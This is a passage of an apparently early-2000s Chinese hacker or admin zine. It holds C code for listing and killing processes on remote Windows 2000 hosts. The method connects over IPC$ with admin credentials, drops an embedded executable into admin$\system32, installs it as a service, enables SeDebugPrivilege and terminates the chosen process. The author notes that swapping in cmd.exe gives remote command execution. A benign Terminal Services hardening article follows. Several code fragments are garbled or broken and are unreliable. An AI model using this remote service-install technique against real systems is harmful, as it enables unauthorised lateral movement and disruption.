    LARGE_INTEGER KernelTime;
    UNICODE_STRING ProcessName;
    ULONG BasePriority;
    ULONG ProcessId;
};

typedef NTSTATUS (__stdcall *NtQuerySystemInformation1)(
    IN ULONG SysInfoClass,
    IN OUT PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG RetLen
);

int main() {
    // 代码在此处截断
}
```

## 从 PDH 中取得本地/远程系统进程信息

前面说的三种方法都只能枚举本地的系统进程，如何枚举远程系统的进程呢？目前我只知道从 PDH 中取得进程信息。

先简单的说说 PDH 是什么东西。PDH 是英文 Performance Data Helper 的缩写，Windows NT 一直在更新这个称为 Performance Data 的数据库，这个数据库包含了大量的信息，例如 CPU 使用率、内存使用率、系统进程信息等等一大堆有用的信息，可以通过注册表函数来访问。注意，Windows 9x 中并没有配置这个数据库。但是，这个数据库中的信息布局很复杂，很多人并不愿意使用它，包括我。而且刚开始的时候，它也没有自己特定的函数，只能通过现有的注册表函数来操作。后来，为了使该数据库的使用变得容易，MS 开发了一组 Performance Data Helper 函数，包含在 PDH.DLL 文件中。

Windows 2000 默认是允许远程注册表操作的，所以我们就可以通过连接远程系统的注册表，从它的 PDH 中取得我们所需要的系统进程信息了，当然这需要远程系统的 Admin 权限。下面所举的例子是直接利用注册表函数来从本地/远程系统的 PDH 数据库中取得我们所需要的数据的，我们并没有利用 PDH API。

程序代码如下：

```c
/* ***************
Module    ps.c
Author    mikeblas@nwlink.com
Modify    ey4s<ey4s@21cn.com>
Http    //eyas.3322.net
Date    2001/6/23
******************/
#include <stdio.h>
#include <windows.h>
#include <Winnetwk.h>
#define INITIAL_SIZE  51200
#define EXTEND_SIZE   12800
#define REGKEY_PERF   "software\microsoft\windows nt\currentversion\perflib"
#define REGSUBKEY_COUNTERS  "Counters"
#define PROCESS_COUNTER     "process"
#define PROCESSID_COUNTER   "id process"
#define UNKNOWN_TASK  "unknown"
#define MaxProcessNum   52//最大进程数量
#pragma comment   lib   "mpr.lib"

typedef struct ProcessInfo {
    char ProcessName[128];
    DWORD dwProcessID;
} pi;

void banner();
int ConnIPC(char *, char *, char *);
DWORD GetProcessInfo(pi *, char *, char *, char *);
int main(int argc, char * *argv);

int i, iRet;
pi TaskList[MaxProcessNum];
banner();
if (argc == 1) {
    iRet = GetProcessInfo(TaskList, NULL, NULL, NULL);
    printf("\nProcess Info for LOCAL ");
} else if (argc == 4) {
    iRet = GetProcessInfo(TaskList, argv[1], argv[2], argv[3]);
    printf("\nProcess Info for %s ", argv[1]);
} else {
    printf("\nUsage %s <ip> <UserName> <Pass>", argv[0]);
    return 1;
}

if (iRet > 0) {
    printf("\nProcessName\tProcessID");
    for (i = 0; i < iRet; i++) {
        printf("\n%-20s %d", TaskList[i].ProcessName, TaskList[i].dwProcessID);
    }
}
return 0;

DWORD GetProcessInfo(pi *ProList, char *ip, char *user, char *pass) {
    DWORD rc, dwType, dwSize, i, dwProcessIdTitle, dwProcessIdCounter;
    DWORD dwRet = -1;
    HKEY hKeyNames;
    LPSTR buf = NULL, p, p2;
    CHAR szSubKey[1024], szProcessName[MAX_PATH];
    PPERF_DATA_BLOCK pPerf;
    PPERF_OBJECT_TYPE pObj;
    PPERF_INSTANCE_DEFINITION pInst;
    PPERF_COUNTER_BLOCK pCounter;
    PPERF_COUNTER_DEFINITION pCounterDef;
    HKEY ghPerfKey = NULL;   // get perf data from this key
    HKEY ghMachineKey = NULL; // get title index from this key
    BOOL bRemote = FALSE;

    // Look for the list of counters.  Always use the neutral
    // English version regardless of the local language.  We
    // are looking for some particular keys and we are always
    // going to do our looking in English.  We are not going
    // to show the user the counter names so there is no need
    // to go find the corresponding name in the local language.
    __try {
        if (ip && user && pass) {
            if (ConnIPC(ip, user, pass) != 0) {
                printf("\nConnect to %s failed.", ip);
                __leave;
            }
        } else {
            bRemote = FALSE;
        }

        // 连接本地 or 远程注册表
        if (RegConnectRegistry(ip, HKEY_PERFORMANCE_DATA, &ghPerfKey) != ERROR_SUCCESS) {
            printf("\nRegConnectRegistry 1 failed %d", GetLastError());
            __leave;
        }
        if (RegConnectRegistry(ip, HKEY_LOCAL_MACHINE, &ghMachineKey) != ERROR_SUCCESS) {
            printf("\nRegConnectRegistry 2 failed %d", GetLastError());
            __leave;
        }

        sprintf(szSubKey, "%s\\%03x", REGKEY_PERF, MAKELANGID(LANG_ENGLISH, SUBLANG_NEUTRAL));

        if (RegOpenKeyEx(ghMachineKey, szSubKey, 0, KEY_READ, &hKeyNames) != ERROR_SUCCESS) {
            __leave;
        }
        // 从 counter names 取得需要的缓冲区大小
        if (RegQueryValueEx(hKeyNames, REGSUBKEY_COUNTERS, NULL, &dwType, NULL, &dwSize) != ERROR_SUCCESS) {
            __leave;
        }

        // 分配内存
        buf = (LPSTR)malloc(dwSize);
        if (buf == NULL) __leave;
        memset(buf, 0, dwSize);

        // read the counter names from the registry
        if (RegQueryValueEx(ghPerfKey, REGSUBKEY_COUNTERS, NULL, &dwType, (LPBYTE)buf, &dwSize) != ERROR_SUCCESS) {
            __leave;
        }

        //
        // now loop thru the counter names looking for the following counters
        //
        // 1. "Process" process name
        // 2. "ID Process" process id
        //
        // the buffer contains multiple null terminated strings and then
        // finally null terminated at the end. the strings are in pairs of
        // counter number and counter name.
        //
        p = buf;
        while (*p) {
            if (p > buf) {
                for (p2 = p - 2; isdigit(*p2); p2--);
                if (stricmp(p, PROCESS_COUNTER) == 0) {
                    // look backwards for the counter number
                    for (p2 = p - 2; isdigit(*p2); p2--);
                    strcpy(szSubKey, p2 + 1);
                } else if (stricmp(p, PROCESSID_COUNTER) == 0) {
                    // look backwards for the counter number
                    for (p2 = p - 2; isdigit(*p2); p2--);
                    dwProcessIdTitle = atol(p2 + 1);
                }
            }
            // next string
            p += strlen(p) + 1;
        }

        // free the counter names buffer
        free(buf);
        // allocate the initial buffer for the performance data
        dwSize = INITIAL_SIZE;
        buf = (LPSTR)malloc(dwSize);
        while (TRUE) {
            if (buf == NULL) __leave;
            memset(buf, 0, dwSize);
            rc = RegQueryValueEx(ghPerfKey, szSubKey, NULL, &dwType, (LPBYTE)buf, &dwSize);
            pPerf = (PPERF_DATA_BLOCK)buf;

            // check for success and valid perf data block signature
            if (rc == ERROR_SUCCESS &&
                dwSize > 0 &&
                pPerf->Signature[0] == L'P' &&
                pPerf->Signature[1] == L'E' &&
                pPerf->Signature[2] == L'R' &&
                pPerf->Signature[3] == L'F') {
                break;
            }
            // if buffer is not big enough reallocate and try again
            if (rc == ERROR_MORE_DATA) {
                dwSize += EXTEND_SIZE;
                buf = (LPSTR)realloc(buf, dwSize);
            } else {
                __leave;
            }
        }

        // set the perf_object_type pointer
        pObj = (PPERF_OBJECT_TYPE)((DWORD)pPerf + pPerf->HeaderLength);

        // loop thru the performance counter definition records looking
        // for the process id counter and then save its offset
        pCounterDef = (PPERF_COUNTER_DEFINITION)((DWORD)pObj + pObj->HeaderLength);
        for (i = 0; i < (DWORD)pObj->NumCounters; i++) {
            if (pCounterDef->CounterNameTitleIndex == dwProcessIdTitle) {
                dwProcessIdCounter = pCounterDef->CounterOffset;
                break;
            }
            pCounterDef++;
        }

        pInst = (PPERF_INSTANCE_DEFINITION)((DWORD)pObj + pObj->DefinitionLength);
        // loop thru the performance instance data extracting each process name
        // and process id
        for (i = 0; i < (DWORD)pObj->NumInstances - 1 && i < MaxProcessNum; i++) {
            // pointer to the process name
            p = (LPSTR)((DWORD)pInst + pInst->NameOffset);
            // convert it to ascii
            rc = WideCharToMultiByte(CP_ACP, 0, (LPCWSTR)(p - 1), -1, szProcessName, sizeof(szProcessName), NULL, NULL);
            // if we cant convert the string then use a default value
            if (rc == 0) {
                strcpy(ProList[i].ProcessName, UNKNOWN_TASK);
            } else {
                strncpy(ProList[i].ProcessName, szProcessName, sizeof(ProList[i].ProcessName) - 1);
            }
            // get the process id
            pCounter = (PPERF_COUNTER_BLOCK)((DWORD)pInst + pInst->ByteLength);
            ProList[i].dwProcessID = *(LPDWORD)((DWORD)pCounter + dwProcessIdCounter);
            // next process
            pInst = (PPERF_INSTANCE_DEFINITION)((DWORD)pCounter + pCounter->ByteLength);
        }
        dwRet = i;
    } // end of try
    __finally {
        if (buf) free(buf);
        RegCloseKey(hKeyNames);
        RegCloseKey(HKEY_PERFORMANCE_DATA);
        if (bRemote) {
            char tmp[52], tmp2[96];
            strncpy(tmp, ip, sizeof(tmp) - 1);
            wsprintf(tmp2, "\\%s\\ipc$", tmp);
            WNetCancelConnection2(tmp2, CONNECT_UPDATE_PROFILE, TRUE);
        }
    }
    return dwRet;
}

////////////////////
int ConnIPC(char *RemoteName, char *User, char *Pass) {
    NETRESOURCE nr;
    char RN[50] = "";
    strncat(RN, RemoteName, sizeof(RN) - 11);
    strcat(RN, "\\ipc$");
    nr.dwType = RESOURCETYPE_ANY;
    nr.lpLocalName = NULL;
    nr.lpRemoteName = RN;
    nr.lpProvider = NULL;
    if (WNetAddConnection2(&nr, Pass, User, FALSE) == NO_ERROR) {
        return 0;
    } else {
        return 1;
    }
}

void banner() {
    printf("\nPsList ==>Local and Remote process list");
    printf("\nPower by ey4s<ey4s@21cn.com>");
    printf("\nhttp://eyas.3322.net");
    printf("\n2001/6/22\n");
}
```

程序在 Windows 2000、VC++ 6.0 环境下编译，运行良好。注意，远程机器要允许 IPC 连接和远程操作注册表才可以，并且需要 Admin 权限，编译好的程序在我的主页 http://eyas.3322.net 有下载。

## 如何杀掉本地和远程 NT 系统进程

文/ey4s

前面我们说了四种查看本地、远程系统进程的办法，接下来我们来研究一下怎么杀掉本地、远程 NT 系统的进程吧。

杀掉本地进程其实很简单，取得进程 ID 后，调用 OpenProcess 函数打开进程句柄，然后调用 TerminateProcess 函数就可以杀掉进程了。有些情况下并不能直接打开进程句柄，例如 WINLOGON 等系统进程，因为权限不够。这个时候我们就得先提升自己的进程的权限了。提升权限过程也不复杂，先调用 GetCurrentProcess 函数取得当前进程的句柄，然后调用 OpenProcessToken 打开当前进程的访问令牌，接着调用 LookupPrivilegeValue 函数取得你想提升的权限的值，最后调用 AdjustTokenPrivileges 函数给当前进程的访问令牌增加权限就可以了。一般有了 SeDebugPrivilege 特权后，就可以杀掉除 Idle 外的所有进程了。

那如何杀掉远程进程呢？说起来有点复杂，但其实也不难。

- 1. 与远程系统建立 IPC 连接
- 2. 在远程系统的系统目录 admin$\system32 中写入一个文件 killsrv.exe
- 3. 调用函数 OpenSCManager 打开远程系统的 Service Control Manager (SCM)

- 调用函数 CreateService 在远程系统创建一个服务，服务指向的程序是在<2>中写入的程序 killsrv.exe
- 调用函数 StartService 启动刚才创建的服务，把想杀掉的进程的 ID 作为参数传递给它
- 服务启动后，killsrv.exe 运行，杀掉进程
- 清场

这样看来，我们需要两个程序了。Killsrv.exe 的源代码如下：

```c
/* ****************************
Module    Killsrv.c
Date    2001/4/27
Author    ey4s<ey4s@21cn.com>
Http    //ey4s.126.com
* ****************************/
#include <stdio.h>
#include <windows.h>
#include "function.c"
#define ServiceName "PSKILL"

SERVICE_STATUS_HANDLE ssh;
SERVICE_STATUS ss;

////////////////////////////////
void ServiceStopped(void)
{
    ss.dwServiceType = SERVICE_WIN32_OWN_PROCESS | SERVICE_INTERACTIVE_PROCESS;
    ss.dwCurrentState = SERVICE_STOPPED;
    ss.dwControlsAccepted = SERVICE_ACCEPT_STOP;
    ss.dwWin32ExitCode = NO_ERROR;
    ss.dwCheckPoint = 0;
    ss.dwWaitHint = 0;
    SetServiceStatus(ssh, &ss);
    return;
}

////////////////////////////////
void ServicePaused(void)
{
    ss.dwServiceType = SERVICE_WIN32_OWN_PROCESS | SERVICE_INTERACTIVE_PROCESS;
    ss.dwCurrentState = SERVICE_PAUSED;
    ss.dwControlsAccepted = SERVICE_ACCEPT_STOP;
    ss.dwWin32ExitCode = NO_ERROR;
    ss.dwCheckPoint = 0;
    ss.dwWaitHint = 0;
    SetServiceStatus(ssh, &ss);
    return;
}

void ServiceRunning(void)
{
    ss.dwServiceType = SERVICE_WIN32_OWN_PROCESS | SERVICE_INTERACTIVE_PROCESS;
    ss.dwCurrentState = SERVICE_RUNNING;
    ss.dwControlsAccepted = SERVICE_ACCEPT_STOP;
    ss.dwWin32ExitCode = NO_ERROR;
    ss.dwCheckPoint = 0;
    ss.dwWaitHint = 0;
    SetServiceStatus(ssh, &ss);
    return;
}

////////////////////////////
void WINAPI servier_ctrl(DWORD Opcode) // 服务控制程序
{
    switch(Opcode)
    {
    case SERVICE_CONTROL_STOP: // 停止 Service
        ServiceStopped();
        break;
    case SERVICE_CONTROL_INTERROGATE:
        SetServiceStatus(ssh, &ss);
        break;
    }
    return;
}

////////////////////////////
// 杀进程成功设置服务状态为 SERVICE_STOPPED
// 失败设置服务状态为 SERVICE_PAUSED
//
void WINAPI ServiceMain(DWORD dwArgc, LPTSTR * lpszArgv)
{
    ssh = RegisterServiceCtrlHandler(ServiceName, servier_ctrl);
    if (!ssh)
    {
        ServicePaused();
        return;
    }

    ServiceRunning();
    Sleep(100);
    // 注意，argv[0] 为此程序名，argv[1] 为 pskill 参数需要递增 1
    // argv[2] =target argv[3] =user argv[4] =pwd argv[5] =pid
    if (KillPS(atoi(lpszArgv[5])))
    {
        ServiceStopped();
    }
    else
    {
        ServicePaused();
    }
    return;
}

////////////////////////
void main(DWORD dwArgc, LPTSTR * lpszArgv)
{
    SERVICE_TABLE_ENTRY ste[2];
    ste[0].lpServiceName = ServiceName;
    ste[0].lpServiceProc = ServiceMain;
    ste[1].lpServiceName = NULL;
    ste[1].lpServiceProc = NULL;
    StartServiceCtrlDispatcher(ste);
    return;
}
////////////////////////
```

function.c 中有两个函数，一个是提升权限的，一个是提供进程 ID 杀进程的。代码如下：

```c
/**********************
Module   function.c
Date   2001/4/28
Author   ey4s<ey4s@21cn.com>
Http   //ey4s.126.com
***********************/
#include <windows.h>

////////////////////////
BOOL SetPrivilege(HANDLE hToken, LPCTSTR lpszPrivilege, BOOL bEnablePrivilege)
{
    TOKEN_PRIVILEGES tp;
    LUID luid;

    if (!LookupPrivilegeValue(NULL, lpszPrivilege, &luid))
    {
        printf("\nLookupPrivilegeValue error %d", GetLastError());
        return FALSE;
    }

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    if (bEnablePrivilege)
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    else
        tp.Privileges[0].Attributes = 0;

    // Enable the privilege or disable all privileges.
    AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);
    // Call GetLastError to determine whether the function succeeded.
    if (GetLastError() != ERROR_SUCCESS)
    {
        printf("AdjustTokenPrivileges failed %u\n", GetLastError());
        return FALSE;
    }

    return TRUE;
}

//////////////////////////////////////////////
BOOL KillPS(DWORD id)
{
    HANDLE hProcess = NULL, hProcessToken = NULL;
    BOOL IsKilled = FALSE, bRet = FALSE;

    __try
    {
        if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hProcessToken))
        {
            printf("\nOpen Current Process Token failed %d", GetLastError());
            __leave;
        }
        // printf("\nOpen Current Process Token ok ");

        if (!SetPrivilege(hProcessToken, SE_DEBUG_NAME, TRUE))
            __leave;

        printf("\nSetPrivilege ok ");
        if ((hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, id)) == NULL)
        {
            printf("\nOpen Process %d failed %d", id, GetLastError());
            __leave;
        }
        // printf("\nOpen Process %d ok ");

        if (!TerminateProcess(hProcess, 1))
        {
            printf("\nTerminateProcess failed %d", GetLastError());
            __leave;
        }

        IsKilled = TRUE;
    }
    __finally
    {
        if (hProcessToken != NULL) CloseHandle(hProcessToken);
        if (hProcess != NULL) CloseHandle(hProcess);
    }

    return IsKilled;
}
```

服务端的程序已经好了。接下来还需要一个客户端。如果通过在客户端运行的时候，把 killsrv.exe COPY 到远程系统上，那么就需要提供两个 exe 文件给用户，这样显得不是很专业，呵呵。不如我们就把 killsrv.exe 的二进制码作为 buff 保存在客户端吧，这样在运行的时候，我们直接把 buff 中的内容写过去，这样提供给用户一个 exe 文件就可以了。

Pskill.c 的源代码如下：

```c
/* ****************************
Module    PsKill.c
Date    2001/6/23
Author    ey4s<ey4s@21cn.com>
Http    //ey4s.126.com
PsKill ==>Local and Remote process killer for windows 2k
****************************** */
#include "ps.h"
#define EXE "killsrv.exe"
#define ServiceName "PSKILL"
#pragma comment(lib, "mpr.lib")

////////////////////////////////
// 定义全局变量
SERVICE_STATUS ssStatus;
SC_HANDLE hSCManager = NULL, hSCService = NULL;
BOOL bKilled = FALSE;
char szTarget[52] = {0};

BOOL ConnIPC(char *RemoteName, char *User, char *Pass); // 建立 IPC 连接函数
BOOL InstallService(DWORD dwArgc, LPTSTR * lpszArgv);    // 安装服务函数
BOOL WaitServiceStop();                                   // 等待服务停止函数
BOOL RemoveService();                                     // 删除服务函数

////////////////////////////////
int main(DWORD dwArgc, LPTSTR * lpszArgv)
{
    BOOL bRet = FALSE, bFile = FALSE;
    char tmp[52] = {0}, RemoteFilePath[128] = {0};
    char szUser[52] = {0}, szPass[52] = {0};
    HANDLE hFile = NULL;
    DWORD i = 0, dwIndex = 0, dwWrite, dwSize = sizeof(exebuff);

    // 杀本地进程
    if (dwArgc == 2)
    {
        if (KillPS(atoi(lpszArgv[1])))
            printf("\nLocal Process %s have been killed ", lpszArgv[1]);
        else
            printf("\nLocal Process %s can't be killed ErrorCode %d", lpszArgv[1], GetLastError());
        return 0;
    }

    // 用户输入错误
    else if (dwArgc != 5)
    {
        printf("\nPSKILL ==> Local and Remote Process Killer\n"
               "Power by ey4s<ey4s@21cn.com>\n"
               "http://eyas.3322.net 2001/6/23\n"
               "\nUsage %s <PID> <== Killed Local Process\n"
               "%s <IP> <User> <PWD> <PID> <== Killed Remote Process\n",
               lpszArgv[0], lpszArgv[0]);
        return 1;
    }

    // 杀远程机器进程
    strcpy(szTarget, lpszArgv[1], sizeof(szTarget) - 1);
    strcpy(szUser, lpszArgv[2], sizeof(szUser) - 1);
    strcpy(szPass, lpszArgv[3], sizeof(szPass) - 1);
    // 将在目标机器上创建的 exe 文件的路径
    sprintf(RemoteFilePath, "\\\\%s\\admin$\\system32\\%s", szTarget, EXE);

    __try
    {
        // 与目标建立 IPC 连接
        if (!ConnIPC(szTarget, szUser, szPass))
        {
            printf("\nConnect to %s failed %d", szTarget, GetLastError());
            return 1;
        }
        printf("\nConnect to %s success ", szTarget);

        // 在目标机器上创建 exe 文件
        hFile = CreateFile(RemoteFilePath, GENERIC_ALL, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hFile == INVALID_HANDLE_VALUE)
        {
            printf("\nCreate file %s failed %d", RemoteFilePath, GetLastError());
            __leave;
        }

        // 写文件内容
        while (dwSize > dwIndex)
        {
            if (!WriteFile(hFile, &exebuff[dwIndex], dwSize - dwIndex, &dwWrite, NULL))
            {
                printf("\nWrite file %s failed %d", RemoteFilePath, GetLastError());
                __leave;
            }
            dwIndex += dwWrite;
        }

        // 关闭文件句柄
        CloseHandle(hFile);
        bFile = TRUE;

        // 安装服务
        if (InstallService(dwArgc, lpszArgv))
        {
            // 等待服务结束
            if (WaitServiceStop())
            {
                // printf("\nService was stopped ");
            }
            else
            {
                // printf("\nService can't be stopped. Try to delete it.");
                Sleep(500);
            }

            // 删除服务
            RemoveService();
        }
    }
    __finally
    {
        // 删除留下的文件
        if (bFile) DeleteFile(RemoteFilePath);

        // 如果文件句柄没有关闭，关闭之
        if (hFile != NULL) CloseHandle(hFile);

        // Close Service handle
        if (hSCService != NULL) CloseServiceHandle(hSCService);

        // Close the Service Control Manager handle
        if (hSCManager != NULL) CloseServiceHandle(hSCManager);

        // 断开 IPC 连接
        wsprintf(tmp, "\\\\%s\\ipc$", szTarget);
        WNetCancelConnection2(tmp, CONNECT_UPDATE_PROFILE, TRUE);

        if (bKilled)
            printf("\nProcess %s on %s have been killed\n", lpszArgv[4], lpszArgv[1]);
        else
            printf("\nProcess %s on %s can't be killed\n", lpszArgv[4], lpszArgv[1]);
    }

    return 0;
}

////////////////////////////////////
BOOL ConnIPC(char *RemoteName, char *User, char *Pass)
{
    NETRESOURCE nr;
    char RN[50] = "";
    strcat(RN, RemoteName);
    strcat(RN, "\\ipc$");
    nr.dwType = RESOURCETYPE_ANY;
    nr.lpLocalName = NULL;
    nr.lpRemoteName = RN;
    nr.lpProvider = NULL;

    if (WNetAddConnection2(&nr, Pass, User, FALSE) == NO_ERROR)
        return TRUE;
    else
        return FALSE;
}

////////////////////////////////////
BOOL InstallService(DWORD dwArgc, LPTSTR * lpszArgv)
{
    BOOL bRet = FALSE;
    __try
    {
        // Open Service Control Manager on Local or Remote machine
        hSCManager = OpenSCManager(szTarget, NULL, SC_MANAGER_ALL_ACCESS);
        if (hSCManager == NULL)
``````c
printf("\nOpen Service Control Manager failed %d", GetLastError);
__leave;

//printf("\nOpen Service Control Manager ok ");
// Create Service
hSCService = CreateService(hSCManager,          // handle to SCM database
                           ServiceName,        // name of service to start
                           ServiceName,        // display name
                           SERVICE_ALL_ACCESS, // type of access to service
                           SERVICE_WIN32_OWN_PROCESS, // type of service
                           SERVICE_AUTO_START, // when to start service
                           SERVICE_ERROR_IGNORE, // severity of service
                           NULL,               // name of binary file
                           NULL,               // name of load ordering group
                           NULL,               // tag identifier
                           NULL,               // array of dependency names
                           NULL,               // account name
                           NULL);              // account password
// create service failed
if (hSCService == NULL)
{
    // 如果服务已经存在，那么则打开
    if (GetLastError() == ERROR_SERVICE_EXISTS)
    {
        //printf("\nService %s Already exists", ServiceName);
        // open service
        hSCService = OpenService(hSCManager, ServiceName, SERVICE_ALL_ACCESS);
        if (hSCService == NULL)
        {
            printf("\nOpen Service failed %d", GetLastError);
            __leave;
        }
        //printf("\nOpen Service %s ok ", ServiceName);
    }
    else
    {
        printf("\nCreateService failed %d", GetLastError);
        __leave;
    }
}
// create service ok
```

```c
//printf("\nCreate Service %s ok ", ServiceName);

// 起动服务
if (StartService(hSCService, dwArgc, lpszArgv))
{
    //printf("\nStarting %s.", ServiceName);
    Sleep(20); // 时间最好不要超过 100ms
    while (QueryServiceStatus(hSCService, &ssStatus))
    {
        if (ssStatus.dwCurrentState == SERVICE_START_PENDING)
        {
            printf(".");
            Sleep(20);
        }
        else
        {
            break;
        }
    }
    if (ssStatus.dwCurrentState == SERVICE_RUNNING)
    {
        // success
    }
    else if (GetLastError() == ERROR_SERVICE_ALREADY_RUNNING)
    {
        //printf("\nService %s already running.", ServiceName);
    }
    else
    {
        printf("\nStart Service %s failed %d", ServiceName, GetLastError);
        __leave;
    }
}
bRet = TRUE;
// enf of try
__finally
{
    return bRet;
}
return bRet;
```

```c
Sleep(100);
if (!QueryServiceStatus(hSCService, &ssStatus))
{
    printf("\nQueryServiceStatus failed %d", GetLastError);
    break;
}
if (ssStatus.dwCurrentState == SERVICE_STOPPED)
{
    bKilled = TRUE;
    bRet = TRUE;
    break;
}
if (ssStatus.dwCurrentState == SERVICE_PAUSED)
{
    // 停止服务
    bRet = ControlService(hSCService, SERVICE_CONTROL_STOP, NULL);
    break;
}
else
{
    //printf(".");
    continue;
}
return bRet;
```

```c
////////////////////////
BOOL RemoveService(void)
{
    // Delete Service
    if (DeleteService(hSCService))
    {
        printf("\nDeleteService failed %d", GetLastError);
        return FALSE;
    }
    //printf("\nDelete Service ok ");
    return TRUE;
}
```

```c
////////////////////////
#include <stdio.h>
#include <windows.h>
```

```c
#include "function.c"
unsigned char exebuff[] = "这里存放的是 killsrv.exe 的二进制码";
////////////////////////////////
```

以上程序在 Windows 2000、VC++ 6.0 环境下编译，测试还行。编译好的 pskill.exe 在我的主页 http://ey4s.126.com 有下载。

其实我们变通一下，改变一下 killsrv.exe 的内容，例如启动一个 cmd.exe 什么的，这样有了 admin 权限，并且可以建立 IPC 连接的时候，不就可以在远程运行命令了吗。象 www.sysinternals.com 出的 psexec.exe 和小榕的 ntcmd.exe 原理都和这差不多的。

也许有人会问了，怎么得到程序的二进制码？随便用一个二进制编辑器，例如 UltraEdit 等。但是好像不能把二进制码保存为文本，类似这样“\xAB\x77\xCD”，所以我们就不能直接用了。懒的去找这样的工具了，自己写个简单的吧，代码如下：

```c
/*
Module: exe2hex.c
Author: ey4s<ey4s@21cn.com>
Http:   http://ey4s.126.com
Date:   2001/6/23
**********************************/
#include <stdio.h>
#include <windows.h>

int main(int argc, char **argv)
{
    HANDLE hFile;
    DWORD dwSize, dwRead, dwIndex = 0, i;
    unsigned char *lpBuff = NULL;

    __try
    {
        if (argc != 2)
        {
            printf("\nUsage: %s <File>", argv[0]);
            __leave;
        }

        hFile = CreateFile(argv[1], GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hFile == INVALID_HANDLE_VALUE)
        {
            printf("\nOpen file %s failed %d", argv[1], GetLastError);
            __leave;
        }

        dwSize = GetFileSize(hFile, NULL);
        if (dwSize == INVALID_FILE_SIZE)
        {
            printf("\nGet file size failed %d", GetLastError);
            __leave;
        }

        lpBuff = (unsigned char *)malloc(dwSize);
        if (!lpBuff)
        {
            printf("\nmalloc failed %d", GetLastError);
            __leave;
        }

        while (dwSize > dwIndex)
        {
            if (!ReadFile(hFile, &lpBuff[dwIndex], dwSize - dwIndex, &dwRead, NULL))
            {
                printf("\nRead file failed %d", GetLastError);
                __leave;
            }
            dwIndex += dwRead;
        }

        for (i = 0; i < dwSize; i++)
        {
            if (i % 16 == 0)
            {
                printf("\n");
            }
            printf("\x%.2X", lpBuff[i]);
        }
    }
    // end of try
    __finally
    {
        if (lpBuff) free(lpBuff);
        CloseHandle(hFile);
    }
    return 0;
}
```

这样运行：`exe2hex killsrv.exe`，就把 killsrv.exe 的二进制码打印到屏幕上了，你可以把它重定向到一个 txt 文件中去，如 `exe2hex killsrv.exe > killsrv.txt`，然后 copy 到 ps.h 中去就搞定了。

## 微软终端服务 Terminal Service 的几个使用技巧

文/shotgun

微软的 Win2000 服务器版中自带了一个终端服务 Terminal Service，这个服务基于远程桌面协议（RDP），它的速度非常快，也很稳定，是一个比较好的远程管理软件，不过这个终端服务有几个不方便的地方：

第一是没有改端口的地方，终端服务只能使用默认的 3389 端口。对于一个谨慎的管理员来说，服务器开着 3389 端口，随便哪个调皮的孩子都能上去试试密码；再加上前些时候微软输入法的漏洞，不需要密码就是 System 权限，不改个端口，万一微软什么时候再出个大纰漏，你该怎么办？

第二是没有完善的日志功能，这样什么人什么时候曾经连上我的机器我都不知道，是不是可怕了点？

其实这两个问题都可以非常容易的解决：

对于端口的问题，微软提供了一个方法允许用户自己更改服务器端和客户端的端口：

微软的原文在：http://support.microsoft.com/support/kb/articles/Q187/6/23.ASP

上面这个链接是英文版的，如果不愿意去看原文的，就听我说：

- 1. 第一步，更改终端服务的服务器端设置。

打开注册表（Regedit 或者 Regedt32，随便你用哪个），找到类似这样的键值 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Terminal Server\Wds\Rdpwd\Tds\Tcp`，看到那个 PortNumber 没有？0xd3d，这是 16 进制，就是 3389 啦，我改......这个值是 RDP 远程桌面协议的默认值，也就是说是用来配置以后新建的 RDP 服务的，要改已经建立的 RDP 服务，我们去下一个键值：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations` 这里应该有一个或多个类似 RDP-TCP 的子键（取决于你建立了多少个 RDP 服务），一样改掉 PortNumber。

- 2. 第二步，改客户端。

服务端改了端口而客户端端口没有变，我们岂不是只有干瞪眼？再来改客户端：打开客户端连接管理器，按照正常的步骤建立一个客户端连接的快捷方式，选中这个连接，然后在“文件”菜单里选择“导出”（Menu → File → Export），这个操作会生成一个 cns 文件，就是终端服务客户端的配置文件，你可以用文本编辑器（比如记事本）编辑这个文件，找到“Server Port=3389”，改成你要的端口，然后再选导入 Menu → File → Import，这时的客户端快捷方式已经变成你需要的端口了。

需要注意的是，从微软主页上下载的终端服务客户端 Terminal Service Client（MSI 版）以及 ActiveX 版都不能更改端口，只有使用 Win2000 服务器版终端服务自带的“制作安装软盘”功能制作的版本可以改端口，这个功能在管理工具的“终端服务客户端生成器”（Terminal Service Client Creator）中。

对于日志的问题，其实 Terminal Service 自己是有日志功能的，在管理工具中打开远程控制服务配置（Terminal Service Configuration），点击“连接”，右击你想配置的 RDP 服务（比如 RDP-TCP Microsoft RDP 5.0） 选中书签“权限”，点击左下角的“高级”，看见上面那个“审核”了么？我们来加入一个 Everyone 组，这代表所有的用户，然后审核他的“连接”、“断开”、“注销”的成功和“登录”的成功和失败就足够了，审核太多了反而不好，这个审核是记录在安全日志中的，可以从“管理工具”→“日志查看器”中查看。

现在什么人什么时候登录我都一清二楚了，可是美中不足的是：它居然不记录客户端的 IP（只能查看在线用户的 IP），而是记录机器名。要是别人起个 PIG 的机器名你只好受他的嘲弄了。我们自己来写个程序，一切搞定，你会 C 么？不会？VB 呢？也不会？Delphi 什么？你什么编程语言都不会？我倒，毕竟系统管理员不是程序员呀，别急别急，我给你想办法，我们来建立一个 bat 文件，叫做 TSLog.bat，这个文件用来记录登录者的 IP，内容如下：

```bat
time /t >> TSLog.log
netstat -n -p tcp | find "3389" >> TSLog.log
start explorer
```

我来解释一下这个文件的含义：

第一行是记录用户登录的时间，`Time/t` 的意思是直接返回系统时间（如果不加 `/t`，系统会等待你输入新的时间），然后我们用追加符号“`>>`” 把这个时间记入 TSLog.log。

